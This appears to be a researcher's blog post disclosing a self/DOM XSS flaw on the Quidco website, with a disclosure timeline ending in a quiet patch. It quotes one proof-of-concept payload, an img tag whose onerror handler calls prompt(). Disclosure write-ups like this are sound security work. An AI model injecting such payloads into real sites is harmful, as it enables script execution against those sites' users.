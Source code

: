 ```yaml
---
ID: 73
post_title: '#Quidco Self XSS'
post_name: quidco-self-xss
author: Robbie
post_date: 2017-04-06 09:37:12
layout: post
link: https://xsses.rocks/quidco-self-xss/
published: true
tags: [ ]
categories:
  - XSS
---
```

Simple DOM XSS this time as I didnt see any values reflected.

Simple Payload Used...

&nbsp;
<blockquote>#&lt;img src=x onerror=prompt(/OPENBUGBOUNTY/)&gt;</blockquote>
&nbsp;

<img class="alignnone size-medium" src="https://pbs.twimg.com/media/C8JnD4FVwAEki2T.jpg:large" width="1915" height="664" />

Timeline:
March 18th - DM sent to quidco
March 30th - Tweeted them <a href="https://twitter.com/Random_Robbie/status/847353071449423874">https://twitter.com/Random_Robbie/status/847353071449423874</a>
March 30th - Response received <a href="https://twitter.com/quidco/status/847400878990532608">https://twitter.com/quidco/status/847400878990532608

P</a>atched at some point with out telling me!